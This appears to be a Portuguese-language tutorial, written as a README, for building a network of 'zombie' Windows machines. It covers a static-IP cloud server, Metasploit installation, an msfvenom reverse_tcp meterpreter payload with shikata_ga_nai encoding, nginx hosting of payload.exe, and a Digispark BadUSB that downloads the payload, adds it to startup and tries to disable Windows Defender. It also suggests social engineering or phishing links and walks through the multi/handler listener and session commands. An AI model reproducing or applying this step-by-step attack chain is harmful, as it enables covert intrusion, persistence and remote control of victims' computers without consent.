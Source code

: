 

**Criar uma instancia e definir um IP estatico**

 Eu estarei utilizando o **GCP(Google cloud platform)** mas você pode utilizar o provedor de **CLOUD** que deseja ou até mesmo um VPS.

Acesso meu console e crio a instancia. Estancia essa que é bem basica, uma micro com SO Debian 9

Com o a instancia criada, eu defino um IP estatico para minha instancia.
O IP estatico é necessario para que não ocorra o risco do IP que definirmos no nosso backdoor mudar e perdemos nossos "computadores zumbis" já conquistados.

**Instalar METASPLOIT**

![](https://res.cloudinary.com/peerlyst/image/upload/c_limit,dpr_auto,f_auto,fl_lossy,h_428,q_auto,w_880/v1/post-attachments/1567258807005_bbvioc)

 Nesse passo vamos instalar nosso canivete suiço **METASPLOIT** para criamos nosso **BACKDOOR** e orquestramos nossos "computadores zumbis"

   Conecte-se a sua instancia por ssh para instalarmos o **METASPLOIT**
   
 ```shell
 curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
conceda permisão de execução para o instalador

 ```shell
 chmod +x msfinstall
```
agora execulte o mesmo

 ```shell
 ./msfinstall
```

Como vai ser a primeira execução o **METASPLOIT** vai perguntar se você deseja configurar seu ambiente, criando um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

 ```shell
 msfconsole --version
```


**Criar BACKDOOR REVERSE**

![](https://encrypted-tbn0.gstatic.com/images?q=tbn%3AANd9GcSCSVqEzi43NukYA2E1HUfNSnztdZxoeFKaTczSbokL40tqbRL9)

Agora vamos criar o nosso backdoor definindo qual tipo de conexão iremos usar que vai ser uma** REVERSA TCP** para qual tipo de SO alvo que sera maquinas Windows, qual vai ser o nosso **LHOST**(IP de comunicação) nossa **LPORT**(porta de comunicação) o tipo da extenção do backdoor **-f exe** o algoritmo de criptografia e compreensão, **-i ** o numero de interações do encoded com o backdoor, e **-o** o nosso arquivo de saida.  Se você estive e uma cloud provavelmente vai ter que *criar uma regra de firewall* para a sua porta escolhida

 ```shell
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Rodando um ls para listar os arquivos do diretorio verá que o arquivo payload.exe foi criado


** Configurar NGINX para download do backdoor**

 o **NGINX** vai ser necessario para  criarmos um servidor web no qual o nosso payload do **Digispark** possa fazer o download do **BACKDOOR** para dentro da maquina alvo. Ou enviarmos o link atraves de engenharia social para obter acesso a maquina alvo. 
 
 Vamos instalar o nginx

 ```shell
 sudo apt-get update
 sudo apt-get install -y nginx
```
Iremos criar uma copia do nosso backdoor dentro da pasta do servidor

 ```shell
 sudo cp ./payload.exe /var/www/html/payload.exe
````

Feito isso nosso arquivo vai esta disponivel para download em

http://34.97.212.80/payload.exe


**Digispark**

![](https://pbs.twimg.com/media/ELWqVmnXUAE5ku8.jpg)

Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir". Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. O ataque também pode ser feito utilizando tecnicas de **Phishing**.

Mas aqui vou abordar um **ataque de infecção fisica**, onde vamos precisar ter acesso fisico a uma maquina e com a posse de um **Digispark** iremos infectar o alvo.

Para quem não conhece o **Digispark**, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador.

![](https://i.ytimg.com/vi/YXWxEzLHXuw/maxresdefault.jpg)

> *Poderiamos utilizar o **Rubber duck** original, mas no Brasil é dificil encotramos e os poucos que chegam a ser vendidos por precinho um pouco salgado. *

O **Digispark** chega ser um GENERICO ao Rubber duck*(dispositivo esse usado na serie Mr. Robot) * tem um desempenho inferior mas é uma alternativa acessivel e viavel para o nosso ataque e pode ser programada com a** IDE do Arduino**. com isso configuraremos o Digispark para ser reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina, e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina, adicionando ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma.

Agora bora lá, para isso você vai precisar de um[ Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16](https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark " Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16") . Com ele em mãos agora você vai precisar carregar nele os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos [deste tutorial](https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85 "este tutorial") e voltar aqui

> *Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar [configurar o uDev ]( https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html "configurar o uDev ")*

**Criar Payload para injectar o BACKDOOR**

Feito tudo isso e com o **ARDUINO IDE** instalado vamos criar o nosso Payload que ao plugarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  executar nosso backdoor, tudo isso em menos de 30 segundos.

Abra o Arduino IDE e cole o [payload que vou deixar aqui](https://github.com/despossivel/Vetor-de-ataque-com-CLOUD---BACKDOOR-DIGISPARK/blob/master/payload.ino "payload que vou deixar aqui") para vocês. Copiado, colado e entendido o que o payload faz, clique em verificar primeiro, para debugar nosso codigo e depois em carregar e aguarde a IDE solicitar que você pluge o digispark. Ao plugar a IDE vaI injetar na placa nosso payload e SUCESSO! 

![](https://cedarctic.github.io/digiQuack/images/logo.png)

Nosso **DigiQuack esta criado**.


** Iniciar escuta das conexões do backdoor**

Agora voltamos para a nossa instância para iniciarmos a escuta do backdoor na nossa porta. Em acesso SSH iniciamos o console do Metasploit executado

```shell
msfconsole
```
Depois de iniciado vamos selecionar qual exploit iremos usar, que é o multi/handle
feito isso setamos o meterpreter de conexão reversa tcp para o windows, setamos o nosso HOST e PORTA, os mesmo usados na criação do backdoor, e ExitOnSession para que o manipulador possa continuar executando como trabalho mesmo com uma sessão fechada ou com falha no medidor.

```shell
    msf >use exploit/multi/handler
    msf >set PAYLOAD windows/meterpreter/reverse_tcp
    msf >set LHOST 34.97.212.80
    msf >set LPORT 5000
    msf >set ExitOnSession false
```
feito tudo isso estamos prontos para receber nossas conexões, você pode pressionar ctrl+c para liberar o terminal que agora iremos visualizar nossas conexões e obter acesso.

**Obter acesso a uma maquina infectada**

Agora basta pluga-lo em qualquer maquina windows desviar a atenção do usuario da maquina aguardar alguns segundos e remove-lo, tudo muito rapido.

Você também pode enviar o link para alguem ou plugar o digispark em alguma maquina e aguardar o primeiro a se juntar a sua rede de zumbis hahahaha

para ficar na esculta em tempo real de quem se conectou ou disconectou rode.

```shell
    msf > exploit -j -z
```
 para listar nossas conexões de entrada até o momento

```shell
msf> sessions -l 
```
você tera uma saida algo como

![](https://s5.gifyu.com/images/sessionsL.png)



e para acessar um "zumbir
```shell
msf> sessions -i <numero da sessão> 
```

com isso você obtem acesso shell 

![](https://s5.gifyu.com/images/sessionsI.png)

 
#### ** CONHECIMENTO NÃO É CRIME, CRIME É O QUE VOCÊ FAZ COM ELE. **

#### **ENTÃO UTILIZE  O QUE APRENDEMOS AQUI PARA FINS DIDATICOS, PARA ZUAR UM AMIGO OU IRMÃO E RESPEITE A PRIVACIDADE DOS OUTROS**

@despossivel
